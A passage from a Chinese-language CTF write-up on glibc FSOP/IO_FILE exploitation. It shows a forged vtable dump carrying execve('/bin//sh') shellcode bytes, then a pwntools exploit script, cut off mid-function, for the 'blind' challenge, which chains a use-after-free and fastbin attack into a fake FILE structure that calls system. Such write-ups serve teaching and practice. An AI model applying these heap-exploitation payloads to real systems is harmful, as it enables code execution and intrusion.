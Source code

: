 ```
  __finish = 0x61616161, 
  __overflow = 0x61616161, 
  __underflow = 0x61616161, 
  __uflow = 0x61616161, 
  __pbackfail = 0x61616161, 
  __xsputn = 0x804a36c, <==改的主要是这个地方。
  __xsgetn = 0x2f68686a, 
  __seekoff = 0x68732f2f, 
  __seekpos = 0x6e69622f, 
  __setbuf = 0x168e389, 
  __sync = 0x81010101, 
  __doallocate = 0x69722434, 
  __read = 0xc9310101, 
  __write = 0x59046a51, 
  __seek = 0x8951e101, 
  __close = 0x6ad231e1, 
  __stat = 0x80cd580b, 
  __showmanyc = 0xa, 
  __imbue = 0x0
}
```

参考链接：
+ [湖湘杯wp](http://myhackerworld.top/2018/11/18/2018%E6%B9%96%E6%B9%98%E6%9D%AF-writesup/?tdsourcetag=s_pcqq_aiomsg)
+ [FSOP以及glibc针对其所做的防御措施](http://blog.dazzlepppp.cn/2017/02/04/FSOP%E4%BB%A5%E5%8F%8Aglibc%E9%92%88%E5%AF%B9%E5%85%B6%E6%89%80%E5%81%9A%E7%9A%84%E9%98%B2%E5%BE%A1%E6%8E%AA%E6%96%BD/)

### 进阶篇1---网鼎杯 blind(fastbins attack+IO_FILE)
该题有new+change+free，其中free的时候没有把指针清空，可以进行UAF操作形成一个fastbin attack，进而利用这个来修改fd，把堆分配到bss段上，进而控制chunk的指针列表，形成任意地址写的操作(因为这道题没有打印输出)。最后伪造IO_FILE，调用printf的时候跳到system去执行。
主要漏洞：UAF、Double Free
详细脚本：

```
from pwn import *
context.log_level='debug'
p=process('./blind')
p.recv()
def pr():
    p.recvuntil('ice:')
def new(index,content,sh=0):
    p.send('1\n')
    p.recvuntil('Index:')
    p.send(str(index))
    p.recvuntil(':')
    p.sendline(content)
    if sh==1:
        p.interactive()
    pr()

def change(index,content,sh=0):
    p.send('2\n')
    p.recvuntil('Index:')
    p.send(str(index))
    p.recvuntil(':')
    p.sendline(content)
    if sh==1:
        p.interactive()
    pr()

def free(index):
    p.send('3\n')
    p.recvuntil('Index:')
```
